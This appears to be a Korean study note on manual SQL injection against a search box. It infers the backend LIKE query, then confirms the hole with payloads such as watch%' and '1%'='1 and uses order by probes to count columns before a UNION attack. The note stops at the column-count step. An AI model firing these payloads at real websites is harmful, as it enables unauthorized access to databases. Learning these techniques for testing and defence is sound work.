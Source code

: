 select ???? from ?????? where name = '___'

@@@ 부분에 검색한 것을 넣어서   
db의 정보를 가져온다.   

2.over 라고 검색.    
했는데 overwatch 라고 바로 나온다면?   



where name like = '___'

3.verwa 만 검색.   
했는데 overwatch 가 나온다면
where name like = '%___%'

여기까지는 추리가 가능해야 함.


## (2) 취약점 확인
watch%'# 을 입력했을 때   
결과값이 나온다면   
SQL Injetion 이 가능하다는 뜻임.


and 1=1    은 쓰면 괜찮은 도구

watch%' and '1%'='1

select ???? from ???? where name like = '%watch%' and '1%'='1%'

넣어서 검색 결과가 나왔다는 건?   
SQL Injection 이 가능하다는 것!!!

근데 watch%' and '1%'='2 라고 넣어서 결과가 나오지 않는다면?   
더욱 더 SQL Injection 공격이 가능하다는 확신을 할 수 있음.

## (3) order by  
데이터 결과가 화면에 나오네?   
그러면 union 을 사용하면 될 것임.

일단 컬럼 개수를 맞춰야 함.

order by 는 꼭 맨 마지막에 적어야 적용 됨.

where name like = '%___%'

watch%' order by 1 #   
결과가 나옴

watch%' order by 2 #   
결과가 나옴

watch%' order by 3 #   
결과가 나옴

watch%' order by 4 #   
결과가 나옴

watch%' order by 5 #   
에러!!!
